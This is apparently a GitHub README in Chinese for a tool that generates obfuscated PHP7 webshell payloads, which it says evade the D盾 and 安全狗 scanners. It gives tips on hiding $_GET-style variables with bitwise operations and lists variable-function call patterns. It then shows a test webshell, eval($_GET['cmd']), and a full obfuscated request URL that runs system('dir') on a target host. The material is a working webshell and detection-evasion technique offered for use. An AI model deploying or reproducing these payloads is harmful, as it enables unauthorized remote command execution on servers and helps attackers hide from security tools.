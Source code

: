 # PHP7免杀命令生成脚本

## 前言

复习PHP命令执行，免杀是躲不掉的；所以看了很多巨佬的干货后，总结了下经验，写了这么一个工具

第一次发GitHub....说明文档存在缺陷或工具存在BUG请及时提出~

## 结果

合理使用工具生成的Payload，是能过最新的D盾和安全狗的

![image-20211123144015380](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/1.png)

## 功能

生成常规字符串，但是由**非敏感字符、非边界符与非字母**经过异或、或、与、取反运算后得到；方便你进行各种骚操作~

小Tips：

```
PHP5的免杀十分灵活，在此不做多解释，参考链接全都是。

PHP7重点在于对$_GET等这类极度敏感的变量隐藏，而不是函数的隐藏（也没有必要）

函数执行基本围绕:

(可变函数名)(参数)
${可变函数名}[参数]
${可变函数名}{参数}
...
你当然可以使用注释提取，本地变量注册等精湛技艺，或者安心找更冷门的回调函数...
```

一个小示例，测试马

```php
<?php
eval($_GET['cmd']);
?>
```

然后可以用工具根据你输入的命令与参数，生成混淆后的形参

```http
http://192.168.85.139/?cmd=${("%5E%5E%40%0B"^"%01%19%05_")}{%ff}(("%04"|"%60").("%60"|"%09").("%12"|"%60"));&%ff=system
```

实际上PHP执行的命令就是

> eval(system(dir);)

![image-20211123160641617](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/2.png)
